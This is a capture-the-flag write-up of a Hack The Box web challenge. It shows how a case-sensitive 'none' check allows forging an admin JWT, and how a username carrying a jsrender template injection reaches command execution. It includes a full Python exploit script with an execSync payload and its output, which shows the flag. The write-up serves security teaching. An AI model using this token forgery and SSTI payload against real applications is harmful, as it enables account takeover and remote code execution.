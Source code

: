# Didactic Octo Paddle
The web application given is written in JS using an SQLite database, and redering HTML templates with `jsrender`. This smol e-commerce webapp allows a user to register itself, add/remove items to/from a cart. It also has an admin interface to administer users.

The first vulnerability lies in the handling of the admin JWT session: it trusts the user provided JWT algorithm. It does try to filter out the `none` alrogithm (in which the JWT signature is an empty string), but is not case sensitive:
```js
const AdminMiddleware = async (req, res, next) => {
    try {
        const sessionCookie = req.cookies.session;
        if (!sessionCookie) {
            return res.redirect("/login");
        }
        const decoded = jwt.decode(sessionCookie, { complete: true });

        if (decoded.header.alg == 'none') { <====================== only 'none' is tested, not 'None', 'nOne', 'nOnE', etc
            return res.redirect("/login");
        } else if (decoded.header.alg == "HS256") {
            const user = jwt.verify(sessionCookie, tokenKey, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res.status(403).send("You are not an admin");
            }
        } else {
            const user = jwt.verify(sessionCookie, null, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res
                    .status(403)
                    .send({ message: "You are not an admin" });
            }
        }
```

Once logged in as admin, the user page renders the user names with `jsrender`:

```js
  router.get("/admin", AdminMiddleware, async (req, res) => {
        try {
            const users = await db.Users.findAll();
            const usernames = users.map((user) => user.username);

            res.render("admin", {
                users: jsrender.templates(`${usernames}`).render(),
            });
```

```html
      {{for users.split(',')}}
        <li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>{{>}}</span>
        </li>
      {{/for}}
```

If a user has a name using an SSTI (Server Side Template Injection), it will trigger `jsrender` to execute it.

As such, the path to victory is:

- register a normal user
- login with the normal user get the resulting JWT
- pollute the JWT algorithm with `None` (or any `none` with an uppercase), remove its signature, and alter the user `id` to `1` (which is the admin)
- register another user, which username uses a `jsrender` SSTI (using payloads from [here](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md))
- using the polluted admin JWT, visit the `/admin` page to trigger `jsrender` SSTI trying to display the usernames

The final script is the following:
```python
import requests
import base64
import json

domain = '165.232.108.240'
endpoint = "http://{}:31326".format(domain)

register = {
    'username': 'aaa',
    'password': 'bbb'
}

# https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md#jsrender-nodejs
register_ssti = {
{% raw %}
    'username': "{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}",
{% endraw %}
    'password': 'aaa'
}

s = requests.Session()
# Register
response = s.post(endpoint + '/register', json = register)
print(response.text)
# Login
response = s.post(endpoint + '/login', json = register)
print(response.text)

jwt = s.cookies['session']
jwt_alg = json.loads(base64.b64decode(jwt.split('.')[0]))
jwt_claim = json.loads(base64.b64decode(jwt.split('.')[1]))
jwt_alg['alg'] = 'None'
jwt_claim['id'] = 1

jwt_admin = base64.b64encode(json.dumps(jwt_alg).encode('utf8')) + b'.' + base64.b64encode(json.dumps(jwt_claim).encode('utf8')) + b'.'
jwt_admin = jwt_admin.decode('utf8').replace('=', '')
print(jwt_admin)
s.cookies.set("session", jwt_admin, domain=domain)

# Register SSTI
response = s.post(endpoint + '/register', json = register_ssti)
print(response.text)
# Admin
response = s.get(endpoint + '/admin')
print(response.text)
```

And the output:
```bash
$ python lol.py
{"message":"User registered succesfully"}
{"message":"Logged in successfully"}
eyJhbGciOiAiTm9uZSIsICJ0eXAiOiAiSldUIn0.eyJpZCI6IDEsICJpYXQiOiAxNjc5NzI5ODM1LCAiZXhwIjogMTY3OTczMzQzNX0.
{"message":"User registered succesfully"}
<!DOCTYPE html>
<html lang="en">
[...]
<body>
[...]
<li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}
```
